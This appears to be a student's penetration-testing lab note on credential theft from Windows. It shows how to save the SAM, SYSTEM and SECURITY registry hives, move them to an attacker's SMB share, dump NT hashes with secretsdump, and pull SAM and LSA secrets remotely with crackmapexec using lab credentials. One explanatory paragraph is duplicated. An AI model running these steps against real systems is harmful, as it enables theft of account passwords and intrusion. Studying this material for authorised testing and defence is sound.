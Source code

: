 🔍 What’s Being Saved?
Hive	Contents
HKLM\SAM	NTLM hashes of local accounts (this is the SAM database)
HKLM\SECURITY	LSA Secrets (service passwords, auto-logon creds, cached domain creds)
HKLM\SYSTEM	Boot key used to decrypt both SAM and SECURITY hives


SAM aka Security account manager is a database file that stores hashed user account passwords for the local system
it is located at
C:\Windows\System32\config\SAM

With admin rights on a machine you can retrieve the hash passwords. You can easily dump this through a metrepreter shell

the hashes inside SAM are usually stored in NTLM hash format


## Copying SAM registry 

there are three registry hives we can copy if we have local admin access on the target; each will have a specific purpose where we can get to dumping and cracking the hashes. Here is a brief description


|                 |                                                                                                                                                            |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   |  Also contains LSA secrets Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. Boot key used to decrypt both SAM and SECURITY hives                                       |


We can create backups of these hives using the reg.exe utility


## Using reg.exe save to copy registry hives

Launching CMD as admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```


Technically we will only need `hklm\sam` & `hklm\system`, but `hklm\security` can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts. Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) in combination with some useful CMD commands to move the hive copies to a share created on our attack host.


## Creating a share with smbserver.py
*Remember SMB or a server message block is a network protocol used for sharing files, folders printers and more anything with \\ip\share is a smb block*

All we must do to  create the share is run smbserver.py -smb2support .
using python and give the share a name (CompData) and specify the directory on our attack host where the share will be storing the hive copies (/home/ltnbob/Documents). Know that the smb2support option will ensure new version of SMB are supported if we dont use this flag their will be errors as new versions of windows dont support SMBv1.



```shell-session
JackTheWizard@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

#### Moving Hive Copies to Share

Attacking SAM

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Then we can confirm that our hive copies successfully moved to the share by navigating to the shared directory on our attack host and using `ls` to list the files.


## Dumping hashes using ImPackets secretsdump.py

One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:


Using secretsdump.py is a simple process. All we must do is run secretsdump.py using Python, then specify each hive file we retrieved from the target host.

#### Running secretsdump.py

Attacking SAM

```shell-session
JackTheWizard@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:

Attacking SAM

```shell-session
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

This tells us how to read the output and what hashes we can crack. Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS.

Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords. It may be beneficial to make a note of each user, so we know which password is associated with which user account.

so for example

```shell-session
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
```



so since most windows computers use the NT hash 6f8c3f4d3869a10f3b4f0522f537fd33 is the hash we use. Its not like we need to use both but they display it in both formats as some older windows systems use LM hashes

✅ **Modern Windows only really uses the NT hash** — that `6f8c3f4d3869a10f3b4f0522f537fd33` part. 

Here we see that secretsdump successfully dumps the `local` SAM hashes and would've also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. Notice the first step secretsdump executes is targeting the `system bootkey` before proceeding to dump the `LOCAL SAM hashes`. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database, which is why it is important for us to have copies of the registry hives we discussed earlier in this section. Notice at the top of the secretsdump.py output:



#### Running Hashcat against NT Hashes

Hashcat has many different modes we can use. Selecting a mode is largely dependent on the type of attack and hash type we want to crack. Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes). We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number. We will use the infamous rockyou.txt wordlist mentioned in the `Credential Storage` section of this module.




## Remote Dumping & LSA Secrets Considerations

With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely
HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Secrets
**LSA** (Local Security Authority)
**LSA Secrets** = "Here are **passwords and tokens** Windows saved for services, VPNs, cached logins, and other stuff."

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```


#### Dumping SAM Remotely
**SAM** = "Here are the **password hashes** for all user accounts."
We can also dump hashes from the SAM database remotely.

Attacking SAM

```shell-session
JackTheWizard@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

*we use netexec which is the newer version of crackmapexec*
